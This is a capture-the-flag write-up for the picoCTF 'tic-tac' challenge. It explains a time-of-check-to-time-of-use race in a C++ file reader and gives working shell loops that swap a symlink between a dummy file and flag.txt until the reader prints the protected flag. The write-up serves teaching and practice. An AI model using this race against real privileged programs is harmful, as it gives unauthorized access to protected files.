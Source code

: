 # Writeup - tic-tac
Category: Binary Exploitation, Points: 200


## Descpriton

> Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.

We connect to the VM with `ssh`. Further details are given when the instance is launched.


## Vulnerability

After `ssh`ing into the VM. 

We can `ls` the current directory.

```console
$ ls
flag.txt  src.cpp  txtreader
```

We can see there is a `src.cpp` source file, a `flag.txt` file and a binary `./txtreader` file.

We can read `src.cpp` file.

```cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

Now, the program is quite simple. It reads a file into the `file` pointer, and checks if the `file` is owned by the same person who created it. If the check passes it prints the contents of the file onto the screen. 

The `getuid` function returns your user-id, and the `statbuf.st_uid` returns the id of the `file` owner.

If we try to read the `flag.txt` file like this:

```console
$ ./txtreader flag.txt
Error: you don't own this file
```

It doesn't read it because we didn't create the `flag.txt` file. The `root` user has created it.

Now let's think of adding a `symlink`. If we create a `symlink` to `flag.txt`. It should trick the program into printing the contents of `flag.txt`, because we created the `symlink` hence we are the owners, and so it should pass the check.

```console
$ ln -sf flag.txt link  ##create the symlink
$ ./txtreader link
```

Unfortunately, this fails. The reason being the `stat` function resolves the `symlink` to it's orignal file `flag.txt`. Hence, on the `statbuf.st_uid` call, it gives the user-id for `root`.

If we see the challange tags, there is a tag called `toctou`. Google it and this results into a `time-of-check-time-of-use` attack. `toctou` attacks are caused by something called [Race Conditions](https://en.wikipedia.org/wiki/Race_condition). 

Race Conditions happen when two or more operations are running in parallel.

There is a Race Condition in the `src.cpp` file, caused by 2 instances. Firstly, it checks the ownership of the file. Secondly, it reads the file. We want to swap the file between when it checks ownership and when it reads.

```
check_ownership(file) -- file is a dummy file owned by us

swap the file -- from the dummy file to flag.txt

read_file(file) -- read the flag.txt file!
```


## Exploit

First we create a dummy `random.txt` file.

Then, we can swap the `file` with a `symlink`. The basic idea is to keep swapping the `symlink` between `flag.txt` and our dummy file `random.txt`, for some amount of time in the background.

We can do this by:

```console
$ timeout 30s bash -c 'while true; do ln -sf random.txt flag; ln -sf flag.txt flag; done' &
```

The `timeout` command times-out after 30 seconds.

We then try to run `txtreader` multiple times so that we swap the file at the right time.

```console
$ while ! ./txtreader flag 2> /dev/null | grep "picoCTF"; do :; done
```

We should get the flag.


## References

[Link 1](https://brandon-t-elliott.github.io/tic-tac)  
[Link 2](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)


